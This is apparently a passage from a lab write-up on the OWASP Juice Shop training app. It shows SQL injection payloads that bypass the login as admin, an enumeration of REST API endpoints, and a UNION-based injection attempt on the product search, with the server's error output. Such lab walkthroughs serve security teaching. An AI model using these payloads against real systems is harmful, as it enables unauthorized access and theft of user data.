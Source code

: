 ### #4.1 - Log in with the administrator's user account using SQL Injection

*Hint: Think of how SQL queries are written to check if a user exists/has the right password. How would you break out of this query?*

The login form is vulnerable to SQL injection. Indeed, injecting `' or '1'='1` as the email bypasses the authentication. The password field doesn't seem to be vulnerable.

Injecting the string `' or 1=1--` in the username and anything for the password allows to be logged in as admin.

The admin's email is `admin@juice-sh.op` (http://10.10.191.175/profile)

Analyzing the requests with Web developer (Network tab) reveals that the page is loaded by requests to a Rest API service that makes several requests:

* http://10.10.86.91/rest/user/whoami
* http://10.10.86.91/rest/admin/application-configuration
* http://10.10.86.91/rest/admin/application-version
* http://10.10.86.91/rest/product/search?q=banana

Example with search.

```json
$ curl -s http://10.10.86.91/rest/product/search?q=banana | python -m json.tool
{
    "status": "success",
    "data": [
        {
            "id": 6,
            "name": "Banana Juice (1000ml)",
            "description": "Monkeys love it the most.",
            "price": 1.99,
            "image": "banana_juice.jpg",
            "createdAt": "2020-05-09 14:31:57.681 +00:00",
            "updatedAt": "2020-05-09 14:31:57.681 +00:00",
            "deletedAt": null
        }
    ]
}
```

Let's see if search is an injectable field. The following request:
`http://10.10.86.91/rest/product/search?q=oops')) union select * from% users`

outputs:
~~~

OWASP Juice Shop (Express ~4.16.4)
500 SequelizeDatabaseError: SQLITE_ERROR: near "%": syntax error

       at Query.formatError (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)
       at afterExecute (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)
       at replacement (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/trace.js:19:31)
       at Statement.errBack (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/sqlite3.js:16:21)
~~~

